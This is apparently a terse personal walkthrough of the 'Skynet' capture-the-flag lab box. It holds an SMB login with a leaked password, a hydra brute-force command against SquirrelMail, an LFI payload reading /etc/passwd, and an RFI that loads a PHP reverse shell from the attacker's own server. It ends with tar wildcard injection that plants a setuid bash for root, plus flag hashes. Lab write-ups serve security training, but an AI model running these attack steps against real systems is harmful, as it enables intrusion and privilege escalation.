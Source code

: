 # Skynet 

# Target IP : 10.10.234.100

# My IP : 10.17.6.109

# PORT 445 

2 shares Anonymous , Miles Dyson
> anonymous
attention.txt
log files
> miles Dyson : )s{A&2Z=F^n_E.B`

```bash
smbclient //10.10.234.100/milesdyson -U milesdyson 
```
/notes/important.txt
/45kra24zxs28v3yd


# PORT 80
/squirelmail
```bash
# correct
hydra -l milesdyson -P log1.txt 10.10.234.100 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -V -t 30

# incorrect
hydra -l milesdyson -P ./log1.txt  10.10.234.100 http-form-post "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect." -V -t 30

milesdyson:cyborg007haloterminator
```

> inbox
```
1
samba password reset
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`

2
serenakogan@skynet
01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111

balls have zero to me to me to me to me to me to me to me to me to

3
i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to

```
/45kra24zxs28v3yd
contains 
/administator page

lfi/rfi at 
http://10.10.234.100/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

exploit using a php rev shell on local machine 
open server using python
http://10.10.234.100/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.17.6.109:8080/rev.php


# shell

use the same old password to get user shell
> miles
user.txt
7ce5c2109a40f958099283600a9ae807

backup.sh running in cron
which uses tar with *
```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *

```

```bash
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=sh shell.sh"


#!/bin/bash
cp /bin/bash /tmp/rooter
chmod +s /tmp/rooter

```

> user root
root.txt
3f0372db24753accc7179a282cd6a949